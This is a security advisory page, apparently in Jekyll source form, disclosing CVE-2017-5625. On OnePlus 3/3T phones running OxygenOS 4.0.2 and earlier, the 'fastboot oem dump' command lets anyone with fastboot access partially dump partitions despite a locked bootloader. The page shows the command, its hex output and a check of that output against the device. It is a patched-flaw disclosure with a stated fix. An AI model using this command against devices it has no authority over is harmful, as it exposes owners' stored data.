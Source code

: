```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'cve-assign'
      date: '2017-01-29'    
    - type: 'cve-request'
      date: '2017-01-25'
    - type: 'release'
      date: '2017-04-25'
    - type: 'patch'
      date: '2017-03-20'
      
cve: CVE-2017-5625
alephid: ALEPH-2017006     
date: '2017-04-25'
product:
    - OnePlus 3T
    - OnePlus 3
title: 'OnePlus 3/3T OxygenOS Unauthorized Flash Dumping via fastboot'
severity: moderate
summary: A physical attacker, PC malware / malicious charger having ADB or fastboot access to the device can cause a locked bootloader to partially dump the content of an arbitrary partition (except `keystore`) by issuing the `fastboot oem dump <partition>` fastboot command.
vulnerable:
    - 'OxygenOS 4.0.2 and earlier'
mitigation: 'Install OxygenOS 4.0.3 or later'
---
```

The bootloader's fastboot interface must not allow any security-sensitive operation to be run unless the bootloader is unlocked. However, in the affected OnePlus devices and OxygenOS versions, one could partially dump the content of any partition (except keystore):

```terminal
> fastboot oem dump userdata
[...]
(bootloader) Dump partition: userdata
(bootloader) C0C7A7D7DFE7BA0214A21F3366313AF2DA7B36AEF27B5C40694D9534B2D
(bootloader) 3B19C068DEED8C7D333037AB6B770494DD054076171B1D33555C7EEC3FB
(bootloader) E793F5692B86E95D4D697FA98966D82E256103641605149439404A89309
(bootloader) 9EFFB47DFC976857BDE7D388A0DC45B84A97CCD7A0F9CD592EE50D6D6EE
(bootloader) 239E3D9829DFC8627A0F19D8D73FE258A7B576C31DACBAB0EB8B5D01679
(bootloader) B78A8C51D338385A853E4E2A3DBA2A873FC707BEE052F56168050964B94
[...]
```
And indeed the data is correct:
```terminal
OnePlus3:/dev/block/bootdevice/by-name # head userdata | od -tx
0000000 c0c7a7d7 dfe7ba02 14a21f33 66313af2
0000020 da7b36ae f27b5c40 694d9534 b2d361fa
0000040 2cd4f050 79e5e97c 55be1782 b34fbfef
0000060 1edc578b b8cdaf6d 24dfaf1b d7461400
0000100 3b19c068 deed8c7d 333037ab 6b770494
0000120 dd054076 171b1d33 0555c7ee c3fb029b
0000140 4f92d8a2 2af74432 e07bf276 42e3639e
0000160 d5979e35 7cd4adcb ed181221 09a484d1
```
One may argue that this is not an issue because userdata is encrypted, however please note that:
1. Google has recently patched a vulnerability with a similar impact in Pixel ([CVE-2016-8462](https://securityresear.ch/2017/01/04/fastboot-oem-sha1sum/)). It was rated with 'High' severity. 
2. Other vulnerabilies (if found) can be used in order to leak the [AES master key](https://android.googlesource.com/platform/system/vold/+/android-7.1.1_r38/cryptfs.c) from memory.